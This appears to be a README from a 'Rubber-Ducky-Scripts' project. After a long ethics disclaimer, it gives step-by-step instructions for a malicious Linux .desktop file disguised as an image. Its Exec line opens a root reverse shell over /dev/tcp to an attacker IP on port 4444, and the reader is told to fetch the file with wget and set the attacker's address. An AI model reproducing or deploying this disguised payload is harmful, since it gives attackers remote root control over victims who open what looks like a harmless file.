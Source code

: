 # Rubber-Ducky-Scripts
**Disclaimer:** Engaging in activities involving compromised scripts, unauthorized access, or any form of potentially harmful actions is strictly prohibited. The use of such scripts without explicit authorization is both unethical and illegal. It is crucial to adhere to ethical guidelines, respect the law, and prioritize the security and privacy of computer systems. The information provided here is intended for educational and informative purposes only. If you are in an academic or learning environment and wish to explore cybersecurity topics, it is essential to obtain explicit permission from relevant authorities and conduct experiments in a controlled, legal, and ethical manner. Always follow best practices, participate in legal and educational platforms, and ensure that your actions contribute positively to the field of cybersecurity. Unauthorized and unethical activities may result in severe consequences, including legal action and academic penalties. 
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop <br>
**[Desktop Entry] <br>
Encoding=UTF-8 <br>
Name=Open_Custom_File <br>
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1 <br>
Terminal=true <br>
Type=Application <br>
Icon=notebook** <br>
Change IP Address to attacker machine
